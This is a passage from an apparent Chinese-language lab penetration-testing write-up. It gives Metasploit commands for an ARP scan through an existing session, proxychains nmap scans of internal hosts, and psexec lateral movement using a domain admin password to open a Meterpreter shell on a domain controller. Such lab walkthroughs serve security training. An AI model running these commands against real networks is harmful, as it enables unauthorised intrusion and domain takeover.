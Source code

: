 ### 存活扫描

```c
use post/windows/gather/arp_scanner
set rhosts 10.10.10.0/24
set session 6
run
```

![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2016.png)

### 端口扫描

```c
proxychains nmap -sT -Pn -sV -n 10.10.10.10
```

```c
proxychains nmap -sT -Pn -sV -n 10.10.10.201
```

## 横向渗透

### pkexec

既然知道了域管账号和密码，直接打域控

```c
use windows/smb/psexec
set rhosts 10.10.10.10
set payload windows/meterpreter/bind_tcp
set SMBpass 1qaz@WSX
set smbuser administrator
run
```
